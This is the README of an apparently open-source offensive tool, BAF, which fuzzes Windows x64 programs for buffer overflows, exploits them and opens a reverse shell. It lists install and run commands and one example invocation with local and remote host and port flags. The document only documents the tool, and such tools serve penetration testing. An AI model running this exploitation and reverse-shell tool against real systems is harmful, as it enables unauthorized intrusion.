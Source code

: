 # BAF

Python Buffer Overflow scanner.

## Description

BAF is a tool used to scan Winx64 applications for Buffer Overflow Vulnerabilities. It's able to fuzz and exploit vulnerable applications and create a reverse shell.

## Getting Started

### Installation
```
git clone https://github.com/TralseDev/BAF.git
```

### Executing program

```
python3 main.py
```

### Examples:
```
python3 main.py --lhost 127.0.0.1 --lport 1337 --rhost 127.0.0.1 --rport 2337 --prefix="OVERFLOW_COMMAND" --timeout=5 --littleEndian
```

[![Example video](/examples/example.mp4)]

## Help

```
python3 main.py -h
```

## Authors

Tralse

## Version History

* 1.0
    * Stable version
* 0.0
    * Beta phase

## License

This project is licensed under the GNU General Public License v3.0 (GNU GPLv3 License)

## TODOs
- offline scanner
- multi-threading
- save data to not restart all scans
- -o flag (for output > file -> logger/logging_file)
